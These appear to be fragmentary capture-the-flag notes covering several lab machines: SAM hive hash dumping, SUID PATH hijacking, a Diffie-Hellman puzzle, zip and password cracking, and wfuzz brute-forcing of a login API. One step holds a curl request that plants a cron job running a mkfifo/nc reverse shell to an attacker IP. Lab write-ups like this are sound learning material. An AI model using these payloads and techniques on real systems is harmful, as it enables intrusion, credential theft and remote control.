


After getting a shell on some machine using RCE I need to deliver the NTLM hash

In windows, the registry in a binary file format store in ==System32/config/ with name SAM, SECURITY , SYSTEM & Default.==


then I downloaded them from the server:


After collect those file it need to hash dump to get hash value. Here, “Samdump2” is best tool for hash dump.


---

Create our own binary and add it to the path to gain privilege


Now path is updated and upon execution of backup binary we’d get root. Let’s run the binary.


all this because I found in binary file using strings this command



cp command is being executed without absolute path (/bin/cp), that means when this binary get executed, our shell search for “cp” in each directory in the path list to look fo the executable file by that name. Then shell will then run the first matching program it finds.

We can take advantage of this misconfiguration in SUID binary (backup). This is our default path.

---

## Duffle-hellman key exchange

```JavaScript
Still, remember the “Diffie-hellman” comment? I’m trying to google the keyphrase and come across with this simple video.

This video explains how Diffie-hellman key exchange works. There are 3 basic elements in this video which are the prime key, Alice secret key and Bob secret key.

Prime key: 3 mod 17 (Known by everyone, even the eavesdropper) Alice secret key: 15 Bob secret key: 13

Step 1: Alice send the public key Alice public key (A) = (3^15) mod 17 = 6

Step 2: Bob send the public key Bob public key (B) = (3^13) mod 17 = 12

Step 3: Bob and Alice obtain the shared secret key Alice shared key= (bob public key (B) ^ Alice secret key) mod 17 = (12^15) mod 17 = 10 … (1) Bob shared key = (Alice public key (A) ^ Bob secret key) mod 17 = (6^13) mod 17 = 10 … (2)

To unify the equation Since A = (3^15) mod 17, substitute into (2). Bob shared key = (3^15^13) mode 17

Since B = (3^13) mod 17, substitute into (1). Alice shared key = (3^13^15) mode 17

The final equation Shared key = 3^(Alice secret key)^(Bob secret key) mod 17 or Shared key = g^(User 1 secret key)^(User 2 secret key)^…(User N secret key) mod p where g and p are prime keys.

Back to the information given, we have 2 secret keys (a and b), 2 prime key (g and p) and 1 public key (g^c). To get the shared key, we can generate the following equation: Shared key = (g^abc) mod p This shared key will lead us to the secret directory.
```


We got the shared key by doing some simple arithmetic on the python shell. However, this is not the directory we wanted. The secret directory holds 128 characters. To do that, simply convert the shared key to string and then break it up.


---
Unfortunately, the zip file is password protected. To attempt to access the contents of the file, we can use the zip2john tool to convert the zip file into a hash and then use John the Ripper to crack the hash. This process may reveal the password for the zip file, allowing us to access its contents.


Problem Solved

---
wfuzz with ==Content-Type: application/json== header to fuzz
```
wfuzz -w /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-45.txt -c -H 'Content-Type: application/json' -d '{"username":"maui","password":"FUZZ"}' --hh 31 -t 50 http://api.motunui.thm:3000/v2/login
```


Looks like there are no any cronjobs running for user maui. Since we can create a new job, lets try if we can get code execution.
Creating a new job:
I used * * * * * which means the payload runs every minute. You can craft your own cron easily at [Crontab.guru.](https://crontab.guru/)
```
curl http://api.motunui.thm:3000/v2/jobs -XPOST -H 'Content-Type: application/json' -d '{"hash":"aXNsYW5k","job":"* * * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.217 4444 >/tmp/f"}'
```

and I got a shell

---
after getting shell on some machine I ran linpeas again and found out that user moana can edit a .service file.

We can edit this file and when the program restarts ==/usr/bin/node /var/www/api.motunui.thm/server.js== command is executed. But even though we can change the content of the file, we do not have permission to reload the **systemd daemon**, which means we can not get code execution as root until we can find a way to reload the daemon.
###### File Permission for /var/www/
I was not very familiar with how exactly this all works, so I began to play with the service and files.

Since www-data owns all the files, we can easily edit the files. So, lets try editing server.js and check if it is actually reflected on the webserver.

----
